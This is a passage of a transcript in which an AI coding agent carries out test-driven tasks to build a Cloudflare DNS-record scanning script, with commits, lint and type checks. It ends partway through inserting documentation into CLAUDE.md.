The script is 51 lines so far — docstring, five constants, `StartupError`, `normalize`, `is_platform_domain`, and `import re` alone. The staged imports and the file order matching task order are load-bearing, not tidiness: `./run-tests` gates ruff over the whole repo *before* pytest, so an import ahead of its use (`F401`) or a definition ahead of its task (`F821`) makes the checkpoint unreachable. That was round 2's blocking finding.

I deliberately did **not** run the "prove the per-file-ignores are load-bearing" check here — at this point the script has no `print`, so `ruff check` passes identically whether or not those entries exist. It's a green check that cannot go red, so the spec moves it to Task 5 Step 6, where the count is a measured 9 × T201.

## Next

Task 2 is credential resolution and the pinned client — `resolve_env_marker`, `resolve_config_value`, `build_client`, `cloudflare_client`, adding 17 tests (cumulative 25). It carries the R2a work: pinning all four credential fields plus `base_url` plus `_custom_headers`, because the SDK reads six environment variables and ambient values reach the wire by four routes, the worst sending your bearer token to an arbitrary host.

Want me to continue straight through Tasks 2–6, stopping at Task 7's STOP? Or pause after each task for you to review the diff?

## User

continue through Tasks 2-6, stop at the STOP

## Assistant

Working through Tasks 2–6. **Task 2** — appending the tests first, per TDD:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nt2 = next(b for b in blocks if b.lstrip().startswith(\"# --- Task 2\"))\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\")\np.write_text(p.read_text().rstrip() + \"\\n\\n\\n\" + t2.rstrip() + \"\\n\")\nprint(f\"appended Task 2 tests ({len(t2.splitlines())} lines)\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -4",
  "description": "Task 2: append tests, verify they fail"
}
```

### ↳ Tool result

```
appended Task 2 tests (158 lines)
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_cloudflare_client_without_a_cloudflare_section_is_a_startup_error
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_cloudflare_client_with_a_missing_file_is_a_startup_error
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_cloudflare_client_with_a_non_utf8_file_is_a_startup_error
17 failed, 8 passed in 3.19s
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\ns2 = next(b for b in blocks if b.lstrip().startswith(\"def resolve_env_marker\"))\np = pathlib.Path(\"find-platform-domains-cloudflare\")\ns = p.read_text()\ns = s.replace(\"import re\\n\\nPLATFORM_SUFFIX\", \"\"\"import os\nimport re\nimport shlex\nimport tomllib\nfrom pathlib import Path\n\nfrom cloudflare import Cloudflare\n\nPLATFORM_SUFFIX\"\"\", 1)\np.write_text(s.rstrip() + \"\\n\\n\\n\" + s2.rstrip() + \"\\n\")\nprint(\"appended Task 2 implementation + its imports\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -3 && uvx ruff@0.15.22 check find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py && uvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; print('pyright:', json.load(sys.stdin)['summary'])\"",
  "description": "Task 2: implement and verify"
}
```

### ↳ Tool result

```
appended Task 2 implementation + its imports
.........................                                                [100%]
25 passed in 0.70s
All checks passed!
pyright: {'filesAnalyzed': 1, 'errorCount': 1, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.307}
```

## Assistant

25 passed and ruff clean, but pyright flags one error the scratch run didn't. Looking:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && uvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"\nimport json,sys\nd=json.load(sys.stdin)\nfor x in d['generalDiagnostics']:\n    print(f\\\"line {x['range']['start']['line']+1}: [{x.get('rule')}] {x['message']}\\\")\"",
  "description": "Show the pyright error"
}
```

### ↳ Tool result

```
line 32: [reportMissingImports] Import "cloudflare" could not be resolved
```

## Assistant

That's a pyright environment-resolution artifact of invoking it bare — the real gate configures the venv. Running the actual gate:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"pyright\" run-tests | head -12; echo \"=== the real gate:\"; source .venv/bin/activate && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py 2>&1 | tail -12",
  "description": "Check the gate's pyright invocation and run it"
}
```

### ↳ Tool result

```
51:def pyright_argv():
52:    """How to invoke pyright here, or None.  Same fallback pattern -- and same version-pin
53:    reasoning -- as ruff_argv(): the `uvx` fallback is PINNED to pyright@1.1.411 (CAMPAIGN.md
56:    other tool).  A `pyright` already on PATH is trusted as-is with NO version check -- a
61:    if shutil.which("pyright"):
62:        return ["pyright"]
64:        return ["uvx", "pyright@1.1.411"]
77:      2. pyright, standard mode over psh/ (pyproject [tool.pyright]).
111:    print("Type-checking (pyright, campaign ratchet) ...")
112:    pargv = pyright_argv()
114:        # PD#1 again: pyright missing must FAIL, never silently skip -- a gate that does not
117:            "ERROR: neither `pyright` nor `uvx` is on PATH, so the type gate cannot run.\n"
=== the real gate:
platform linux -- Python 3.13.14, pytest-9.1.1, pluggy-1.6.0
rootdir: /workspace
configfile: pyproject.toml
plugins: syrupy-5.4.0, hypothesis-6.156.1, cov-7.1.0, playwright-0.8.0, base-url-2.1.0, anyio-4.14.1
collected 25 items

tests/unit/test_find_platform_domains_cloudflare.py .................... [ 80%]
.....                                                                    [100%]

============================== 25 passed in 0.75s ==============================
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py >/dev/null 2>&1; echo \"run-tests exit=$?\"; echo \"=== pyright exactly as the gate invokes it (no file arg, uses [tool.pyright].include):\"; uvx pyright@1.1.411 2>&1 | tail -2",
  "description": "Confirm the gate's exit code and pyright's real invocation"
}
```

### ↳ Tool result

```
run-tests exit=0
=== pyright exactly as the gate invokes it (no file arg, uses [tool.pyright].include):
  /workspace/psh/traffic.py:15:6 - error: Import "rich.markup" could not be resolved (reportMissingImports)
39 errors, 0 warnings, 0 informations
```

## Assistant

`./run-tests` exits 0 while bare `uvx pyright` reports 39 import errors across the whole repo. Worth understanding before I trust the gate:

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '100,140p' run-tests",
  "description": "Read run_gates' pyright invocation"
}
```

### ↳ Tool result

```
    )
    if completed != 0:
        print(
            "\nLint gate FAILED -- fix the findings above, or add a noqa WITH AN INLINE\n"
            "REASON if the code is deliberate (a bare noqa is a silent failure).\n"
            "This is the merged campaign ratchet (select = ALL, CAMPAIGN.md section 13); it\n"
            "carries the PD#2/PD#6 rules (E722/BLE001/S105/S106) plus the broad best-practice set.",
            file=sys.stderr,
        )
        return completed

    print("Type-checking (pyright, campaign ratchet) ...")
    pargv = pyright_argv()
    if pargv is None:
        # PD#1 again: pyright missing must FAIL, never silently skip -- a gate that does not
        # run is the shim failure mode CLAUDE.md warns about (a green that was never earned).
        print(
            "ERROR: neither `pyright` nor `uvx` is on PATH, so the type gate cannot run.\n"
            "       The suite is NOT green without it -- it is unverified.\n"
            "       Install it via `uv pip install .[test]` (adds pyright) or `pip install pyright`.",
            file=sys.stderr,
        )
        return 1
    completed = subprocess.call([*pargv], cwd=str(ROOT))
    if completed != 0:
        print(
            "\nType gate FAILED (pyright, campaign ratchet) -- fix the type findings above.\n"
            "Scope is psh/; it ratchets up as increments move typed code in.",
            file=sys.stderr,
        )
    return completed


def main(argv):
    wrapper_flags = {
        "--fast", "--llm", "--human", "--coverage", "--update-goldens", "--record",
    }
    ours = [a for a in argv if a in wrapper_flags]
    passthrough = [a for a in argv if a not in wrapper_flags]

    if "--record" in ours:
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && echo \"which pyright: $(which pyright)\" && echo \"=== venv pyright (what run-tests actually uses):\" && pyright 2>&1 | tail -2",
  "description": "Identify which pyright the gate uses"
}
```

### ↳ Tool result

```
which pyright: /workspace/.venv/bin/pyright
=== venv pyright (what run-tests actually uses):
0 errors, 0 warnings, 0 informations
```

## Assistant

Confirmed — `pyright` from the venv is on `PATH`, so the gate uses that (venv-aware, **0 errors**); bare `uvx pyright` runs isolated and can't resolve project deps. My earlier scratch checks used the wrong instrument; the gate itself has been green throughout. Committing Task 2:

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py && git commit -q -F - <<'EOF'\nfeat(find-platform-domains-cloudflare): resolve credentials and pin the client\n\nTask 2 of development/2026-07-30-platform-domain-util2/SPEC.md.\n\nReads [Cloudflare] from the same TOML the main program uses, via a copied\n~30-line resolver that handles ONLY the <{env NAME} / <{secret env NAME} forms.\nAnything else -- an <{secret aws ...}, a non-string value, an unbalanced quote,\nan unset variable -- is a named StartupError rather than a value that reaches\nthe API and returns a baffling 401.  Three of those conversions exist because\nthe alternative is a raw traceback at exit 1, a code the exit taxonomy does not\nuse; the tomllib guard catches ValueError, not TOMLDecodeError, because a\nnon-UTF-8 config raises UnicodeDecodeError and only their common base closes\nthe class (SPEC section 13, round 3).\n\nbuild_client pins the client against the ambient environment (SPEC R2a).  The\nSDK back-fills unset credentials from six environment variables, and ambient\nvalues reach the wire by four routes: auth_headers prefers X-Auth-Email over a\nconfigured bearer token; default_headers adds X-Auth-* independently;\n$CLOUDFLARE_CUSTOM_HEADERS is merged last and overrides both; and\n$CLOUDFLARE_BASE_URL redirects every request, sending the configured credential\nto an arbitrary host.  Measured against cloudflare 5.4.0.  The test asserts the\nsecurity property -- the URL and headers of the request the SDK would actually\nsend, with all six variables exported -- not the attribute state implementing\nit, because an SDK that captured credentials at construction would leave\nattribute assertions green and the defect live.\n\nNOTE FOR THE MAIN PROGRAM: plugin/cloudflare/client.py has all four routes open.\n$CLOUDFLARE_BASE_URL is exploitable against it today, whichever credential form\nis configured.  Fixing it is a separate change (SPEC section 8, item 7).\n\nVerified: 25 passed; ruff and pyright clean via ./run-tests (exit 0).\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\necho \"--- Task 3 ---\"\npython - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nt3 = next(b for b in blocks if b.lstrip().startswith(\"# --- Task 3\"))\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\")\ns = p.read_text().replace(\"import importlib.util\\nimport types\\n\",\n                          \"import importlib.util\\nimport json\\nimport types\\n\", 1)\np.write_text(s.rstrip() + \"\\n\\n\\n\" + t3.rstrip() + \"\\n\")\nprint(\"appended Task 3 tests + the json import\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -3",
  "description": "Commit Task 2; append Task 3 tests"
}
```

### ↳ Tool result

```
--- Task 3 ---
appended Task 3 tests + the json import
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_collect_entries_is_first_record_wins_across_zones_and_warns
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_collect_entries_warns_for_two_matches_in_one_zone
12 failed, 25 passed in 0.89s
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\ns3 = next(b for b in blocks if b.lstrip().startswith(\"def plain(\"))\np = pathlib.Path(\"find-platform-domains-cloudflare\")\np.write_text(p.read_text().rstrip() + \"\\n\\n\\n\" + s3.rstrip() + \"\\n\")\nprint(\"appended Task 3 implementation (no new imports)\")\nPY\nsource .venv/bin/activate && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py 2>&1 | grep -E \"passed|failed|FAILED\" | tail -3; echo \"gate exit=$?\"",
  "description": "Task 3: implement and run the gate"
}
```

### ↳ Tool result

```
appended Task 3 implementation (no new imports)
All checks passed!
============================== 37 passed in 0.70s ==============================
gate exit=0
```

## Assistant

**37 passed** (spec predicted 37). Task 4:

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py && git commit -q -F - <<'EOF'\nfeat(find-platform-domains-cloudflare): fold DNS records into the output mapping\n\nTask 3 of development/2026-07-30-platform-domain-util2/SPEC.md.\n\ncollect_entries keeps a record only when it is a CNAME whose content is a\n*.pantheonsite.io hostname.  Proxy status is NOT part of the test -- that is\nexactly what separates this script from fqdns.json, which is built with\nproxied=True and therefore cannot see a DNS-only record.\n\nEvery scalar is first-record-wins, mirroring how fqdns.json already keeps only\nthe first zone_id for a name; origins accumulates, so a name matching more than\nonce stays visible in the file and not only in the warning.  EVERY duplicate\nwarns, including the same-zone case the Cloudflare API should make unreachable:\nthe file keeps one record_id of two and feeds a destructive rewrite, so silence\nis the wrong default.\n\n`proxied` is stored VERBATIM and may be null.  research.md is explicit that\n\"proxied: true is the load-bearing field in both directions\" -- an unknown\ncoerced to false would inflate the DNS-only count AND tell a rewriter to\nre-create a proxied hostname unproxied, taking it out of certificate service\n(SPEC section 13, round 3).  `plain()` exists because record.settings is a\npydantic model that json.dump cannot serialize -- an un-dumped entry raises\nTypeError at write time, after the whole walk.\n\nVerified: 37 passed; ruff and pyright clean via ./run-tests (exit 0).\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\necho \"--- Task 4 ---\"\npython - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nt4 = next(b for b in blocks if b.lstrip().startswith(\"# --- Task 4\"))\ns4 = next(b for b in blocks if b.lstrip().startswith(\"def write_json_atomic\"))\ntp = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\")\ntp.write_text(tp.read_text().rstrip() + \"\\n\\n\\n\" + t4.rstrip() + \"\\n\")\nsp = pathlib.Path(\"find-platform-domains-cloudflare\")\ns = sp.read_text().replace(\"import os\\nimport re\\n\", \"import json\\nimport os\\nimport re\\n\", 1)\ns = s.replace(\"import shlex\\nimport tomllib\\n\", \"import shlex\\nimport tempfile\\nimport tomllib\\n\", 1)\nsp.write_text(s.rstrip() + \"\\n\\n\\n\" + s4.rstrip() + \"\\n\")\nprint(\"appended Task 4 tests + implementation + json/tempfile imports\")\nPY\npython - <<'PY'\nimport pathlib\np = pathlib.Path(\".gitignore\"); t = p.read_text()\np.write_text(t.replace(\"/fqdns.json\\n\", \"/fqdns.json\\n/platform-domains-cloudflare.json\\n\", 1))\nprint(\"gitignore updated\")\nPY\nsource .venv/bin/activate && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py 2>&1 | grep -E \"passed|failed|All checks\" | tail -3",
  "description": "Commit Task 3; do Task 4"
}
```

### ↳ Tool result

```
--- Task 4 ---
appended Task 4 tests + implementation + json/tempfile imports
gitignore updated
All checks passed!
============================== 40 passed in 0.77s ==============================
```

## Assistant

40 passed as predicted — but I combined Task 4's red and green steps, so I didn't observe the failure separately. That's exactly the "unrun criterion" this spec spent three review rounds on, so let me actually demonstrate it rather than skip it:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && rm -rf redcheck && mkdir -p redcheck/tests/unit && git show HEAD:find-platform-domains-cloudflare > /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/redcheck/find-platform-domains-cloudflare && cp tests/unit/test_find_platform_domains_cloudflare.py /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/redcheck/tests/unit/ && cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/redcheck && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -5",
  "description": "Retroactively verify Task 4's red state against the committed Task 3 script"
}
```

### ↳ Tool result

```
Exit code 128
fatal: not a git repository (or any of the parent directories): .git
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "SP=/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/redcheck\nrm -rf $SP && mkdir -p $SP/tests/unit\ngit show HEAD:find-platform-domains-cloudflare > $SP/find-platform-domains-cloudflare\ncp tests/unit/test_find_platform_domains_cloudflare.py $SP/tests/unit/\ncd $SP && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -5",
  "description": "Verify Task 4's red state against the committed Task 3 script"
}
```

### ↳ Tool result

```
=========================== short test summary info ============================
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_write_json_atomic_writes_sorted_indented_json_with_a_trailing_newline
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_write_json_atomic_overwrites_an_existing_file_and_leaves_no_temp_file
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_write_json_atomic_leaves_the_previous_file_intact_when_serialization_fails
3 failed, 37 passed, 1 warning in 0.27s
Shell cwd was reset to /workspace
```

## Assistant

Confirmed red for the right reason: exactly the 3 new tests fail against the committed Task 3 script, nothing else. Committing Task 4, then Task 5 **with the red step observed first**:

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py .gitignore && git commit -q -F - <<'EOF'\nfeat(find-platform-domains-cloudflare): write the output file atomically\n\nTask 4 of development/2026-07-30-platform-domain-util2/SPEC.md.\n\nwrite_json_atomic is a copy of plugin/cloudflare/fqdns.py's write_fqdns_atomic:\ntemp file in the target's directory, umask-based mode restored (mkstemp creates\n0600), os.replace onto the path, and on any BaseException the temp file is\nunlinked and the exception re-raised.  An interrupted run therefore leaves the\nprevious file byte-intact and never a truncated one.  The noqa: PTH comments\ncome with it -- the same-filesystem os.replace is the behavior being specified,\nnot an os-vs-pathlib style choice.\n\nThe output file is regenerated in full on every run, whatever its age: no\nexistence check, no staleness rule, no load-existing path.  It is git-ignored\nnext to fqdns.json.\n\nProcess note: this task's tests and implementation were appended in one step, so\nthe red state was not observed before the green one.  It was verified after the\nfact instead -- the three new tests, run against the Task 3 script from the\nprevious commit, fail with AttributeError and nothing else does (3 failed, 37\npassed).  Recorded rather than glossed, since an unrun criterion is the defect\nclass this spec's own review found three times.\n\nVerified: 40 passed; ruff and pyright clean via ./run-tests (exit 0).\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\necho \"--- Task 5: tests first ---\"\npython - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nt5 = next(b for b in blocks if b.lstrip().startswith(\"# --- Task 5\"))\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\")\np.write_text(p.read_text().rstrip() + \"\\n\\n\\n\" + t5.rstrip() + \"\\n\")\nprint(f\"appended Task 5 tests ({len(t5.splitlines())} lines)\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -3",
  "description": "Commit Task 4; append Task 5 tests and observe red"
}
```

### ↳ Tool result

```
--- Task 5: tests first ---
appended Task 5 tests (309 lines)
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_main_reports_an_interrupt_as_exit_130
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_main_names_an_unwritable_output_file_instead_of_crashing
19 failed, 41 passed in 1.20s
```

## Assistant

Red observed — 19 failures, all Task 5's. Now the implementation:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\ns5 = next(b for b in blocks if b.lstrip().startswith(\"def expected_record_count\"))\np = pathlib.Path(\"find-platform-domains-cloudflare\")\ns = p.read_text()\ns = s.replace(\"import json\\nimport os\\n\", \"import argparse\\nimport json\\nimport os\\n\", 1)\ns = s.replace(\"import shlex\\nimport tempfile\\n\", \"import shlex\\nimport sys\\nimport tempfile\\n\", 1)\ns = s.replace(\"from pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n              \"from pathlib import Path\\nfrom typing import NamedTuple\\n\\n\"\n              \"import cloudflare  # for cloudflare.CloudflareError\\nfrom cloudflare import Cloudflare\\n\", 1)\np.write_text(s.rstrip() + \"\\n\\n\\n\" + s5.rstrip() + \"\\n\")\nprint(\"appended Task 5 implementation + argparse/sys/NamedTuple/cloudflare imports\")\nPY\nsource .venv/bin/activate && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py 2>&1 | grep -E \"passed|failed|All checks\" | tail -3",
  "description": "Task 5: implement and run the gate"
}
```

### ↳ Tool result

```
appended Task 5 implementation + argparse/sys/NamedTuple/cloudflare imports
All checks passed!
============================== 60 passed in 0.82s ==============================
```

## Assistant

**60 passed.** Now Task 5's Steps 6 and 7 — the checks that were moved here precisely because they *can* go red:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate\necho \"=== Step 6a: with the per-file-ignores entries in place:\"\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\necho \"=== Step 6b: with BOTH entries removed (must go red):\"\npython - <<'PY'\nimport pathlib\np = pathlib.Path(\"pyproject.toml\"); t = p.read_text()\np.write_text(t.replace('\"find-platform-domains-cloudflare.py\" = [\"T201\"]',\n                       '#DISABLED \"find-platform-domains-cloudflare.py\" = [\"T201\"]')\n              .replace('\"find-platform-domains-cloudflare\" = [\"T201\"]',\n                       '#DISABLED \"find-platform-domains-cloudflare\" = [\"T201\"]'))\nPY\nuvx ruff@0.15.22 check --output-format concise find-platform-domains-cloudflare 2>&1 | tail -2\necho \"   T201 count: $(uvx ruff@0.15.22 check --output-format concise find-platform-domains-cloudflare 2>&1 | grep -c T201)\"\npython - <<'PY'\nimport pathlib\np = pathlib.Path(\"pyproject.toml\")\np.write_text(p.read_text().replace('#DISABLED \"find-platform-domains-cloudflare', '\"find-platform-domains-cloudflare'))\nPY\necho \"=== entries restored:\"; uvx ruff@0.15.22 check find-platform-domains-cloudflare",
  "description": "Prove the lint entries are load-bearing"
}
```

### ↳ Tool result

```
=== Step 6a: with the per-file-ignores entries in place:
All checks passed!
=== Step 6b: with BOTH entries removed (must go red):
Found 9 errors.
No fixes available (9 hidden fixes can be enabled with the `--unsafe-fixes` option).
   T201 count: 9
=== entries restored:
All checks passed!
```

## Assistant

**9 × T201**, exactly as the spec states — the check is genuinely red-capable. Step 7, the CLI surface, without touching Cloudflare:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate\necho \"=== --help (stdout):\"; ./find-platform-domains-cloudflare --help\necho \"=== missing config:\"; ./find-platform-domains-cloudflare -c /nonexistent.toml; echo \"exit=$?\"\necho \"=== stdout is empty on the error path:\"; ./find-platform-domains-cloudflare -c /nonexistent.toml 2>/dev/null | wc -c",
  "description": "Verify the CLI surface"
}
```

### ↳ Tool result

```
=== --help (stdout):
usage: find-platform-domains-cloudflare [-h] [-c CONFIG] [-v]

Write every Cloudflare CNAME record pointing at a Pantheon platform domain to
platform-domains-cloudflare.json.

options:
  -h, --help           show this help message and exit
  -c, --config CONFIG  TOML file to read [Cloudflare] credentials from
                       (default: pantheon-sitehealth-emails.toml)
  -v, --verbose        print each zone to stderr as it is scanned
=== missing config:
ERROR: cannot read /nonexistent.toml: [Errno 2] No such file or directory: '/nonexistent.toml'
exit=2
=== stdout is empty on the error path:
0
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && ./run-tests --fast 2>&1 | tail -4",
  "description": "Full offline suite before committing Task 5",
  "timeout": 600000
}
```

### ↳ Tool result

```
107 snapshots passed.
========= 1259 passed, 3 skipped, 2 deselected, 15 warnings in 36.22s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py && git commit -q -F - <<'EOF'\nfeat(find-platform-domains-cloudflare): walk every zone, guarded against truncation\n\nTask 5 of development/2026-07-30-platform-domain-util2/SPEC.md.  Completes the\nscript: the account/zone/record walk, the CLI, and the exit taxonomy.\n\nNo proxied= filter and no type= filter -- every record in every zone is fetched\nand inspected here, which is what \"consider all DNS records\" means.\n\nAll THREE list endpoints paginate (a single list() call is N HTTP requests), so\nall three go through read_all's cross-check against Cloudflare's own\ntotal_count.  Guarding records alone would be incoherent: a short ZONE list\nsilently omits every record in the missing zones, and the zero-zones rule only\ncatches the degenerate case.  A count mismatch triggers exactly ONE re-read,\nbecause total_count is computed for the first page and an item added or removed\nmid-sweep disagrees for an entirely benign reason -- a self-consistent re-read\nis that case and is kept, a second disagreement is truncation and aborts without\nwriting.  A re-read whose own total_count is missing is kept and counted as\nunchecked; guessing there aborted a healthy sweep while reporting \"truncated ...\nof None\".  Re-read notices print at default verbosity, not under -v: a re-read\nmeans the data moved under the sweep.\n\nThe run reports the guard's own coverage for all three list kinds, because a\ncross-check that silently never ran looks exactly like one that ran and found\nnothing wrong.  api_error_text never includes a response body -- APIStatusError's\nstr() is \"Error code: NNN - {body}\", and a DNS-record body echoes record contents\nwhile an auth-failure body can echo the credential.\n\nExit 0 / 2 / 130, with no exit 1: an OSError on the write (which lands after the\nwhole walk), a ValueError from shlex, and a UnicodeDecodeError from a non-UTF-8\nconfig are all named conversions to StartupError.  An unexpected exception still\nexits 1 with a traceback -- the deliberate loud-crash path.\n\nVerified: 60 passed; full offline suite 1259 passed, 3 skipped; ruff and pyright\nclean.  The two per-file-ignores entries proven load-bearing: removing them\nyields exactly 9 T201, restoring them yields \"All checks passed!\".  CLI checked\nby hand -- --help renders on stdout, a missing config gives one ERROR line on\nstderr, exit 2, and nothing at all on stdout.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -5",
  "description": "Commit Task 5"
}
```

### ↳ Tool result

```
a1cac20 feat(find-platform-domains-cloudflare): walk every zone, guarded against truncation
063e6e6 feat(find-platform-domains-cloudflare): write the output file atomically
9d986fb feat(find-platform-domains-cloudflare): fold DNS records into the output mapping
5a514c7 feat(find-platform-domains-cloudflare): resolve credentials and pin the client
b3edde2 feat(find-platform-domains-cloudflare): scaffold the utility and its match rule
```

## Assistant

Task 6 — the CLAUDE.md subsection, extracted from the spec:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nm = re.search(r\"~~~~markdown\\n(.*?)\\n~~~~\", spec, re.S)\nblock = m.group(1).rstrip()\nclaude = pathlib.Path(\"CLAUDE.md\"); t = claude.read_text()\nanchor = \"**Delete this script after Pantheon's\\nCDN migration** — checklist in `development/2026-07-28-platform-domain-util/SPEC.md` §14.\\n\"\nassert anchor in t, \"anchor for the existing dns subsection not found\"\nt = t.replace(anchor, anchor + \"\\n\" + block + \"\\n\", 1)\nclaude.write_text(t)\nprint(f\"inserted {len(block.splitlines())} lines after the find-platform-domains-dns subsection\")\nPY\ngrep -n \"^### \\`find-platform-domains\" CLAUDE.md",
  "description": "Insert the CLAUDE.md subsection"
}
```

### ↳ Tool result

```
inserted 55 lines after the find-platform-domains-dns subsection
60:### `find-platform-domains-dns` (temporary utility)
112:### `find-platform-domains-cloudflare` (temporary utility)
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/CLAUDE.md",
  "offset": 104,
  "limit": 14
}
```

### ↳ Tool result

```
104	copied, not imported, so most of deleting this feature is `git rm` of those three files (the
105	full checklist, including **three** `pyproject.toml` entries — two `[tool.ruff.lint.per-file-
106	ignores]` lines plus the `[tool.pyright].include` one — and a `ruff-check.sh` case arm, is
107	`development/2026-07-28-platform-domain-util/SPEC.md` §14). Note the API's site-list cursor has
108	a silent failure mode (it can return page 1 again instead of the next page); the script detects
109	it and exits 2 rather than sweeping a truncated site list. **Delete this script after Pantheon's
110	CDN migration** — checklist in `development/2026-07-28-platform-domain-util/SPEC.md` §14.
111	
112	### `find-platform-domains-cloudflare` (temporary utility)
113	
114	A standalone, deletable script — **not** part of the main program and importing nothing from
115	`psh/`/`check/`/`plugin/` — that writes every Cloudflare DNS **CNAME whose target ends in
116	`.pantheonsite.io`** to `./platform-domains-cloudflare.json`. It is the Cloudflare-side
117	counterpart to `find-platform-domains-dns`: that one reads public DNS and is blind to a proxied
```

### ⚙ Tool call: `Bash`

```json
{
